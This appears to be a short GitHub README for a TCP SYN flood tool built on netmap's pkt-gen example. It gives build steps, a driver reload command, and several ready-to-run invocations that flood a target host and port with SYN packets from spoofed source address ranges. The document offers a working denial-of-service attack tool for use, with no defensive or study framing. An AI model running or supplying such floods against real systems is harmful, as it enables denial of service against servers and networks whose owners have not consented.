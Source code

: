 # netmap-tcp-synflood

Its a code from netmap pkt-gen example that can be able to send tcp syn pkts

First, compile netmap (linux): https://github.com/luigirizzo/netmap/tree/master/LINUX

After, reload nic driver (in this case is ixgbe)

	rmmod ixgbe ; modprobe mdio ; modprobe ptp ; modprobe dca ; insmod /root/netmap/LINUX/netmap.ko ; insmod /root/netmap/LINUX/ixgbe/ixgbe.ko

To compile:
	cd netmap-tcp-synflood
	make

After compiled, just run: 

	/examples/pkt-gen -i eth2 -f tx -D <gateway_mac_address> -s <src_ip>:<src_port_range>-<dst_ip>:dst_port_range -d <target>:<target_port>
  
Real example :-)

	/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1:1024-10.255.255.255:5000 -d 192.168.10.80:80
	
OR

		/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1-10.255.255.255 -d 192.168.10.80:80

OR

		/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1 -d 192.168.10.80:80
